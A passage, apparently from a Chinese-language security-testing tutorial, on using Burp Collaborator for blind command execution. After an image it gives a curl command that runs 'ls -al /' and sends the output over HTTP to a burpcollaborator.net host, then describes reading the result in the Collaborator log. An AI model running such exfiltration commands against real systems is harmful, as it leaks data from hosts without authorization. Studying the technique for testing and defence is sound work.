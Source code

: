![1536409951024](/images/1536409951024.png)

如果想执行 ls 查看根目录有哪些文件，用 dns 携带不了那么多信息，转而使用 http 请求，执行如下命令：

```bash
curl p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

再次点击 Collaborator client 窗口中的 Poll now 获取 log，我们可以在 log 区看到一条 http 日志，我们查看请求原始信息可以看到请求体中携带出了`ls -al /`的执行结果。
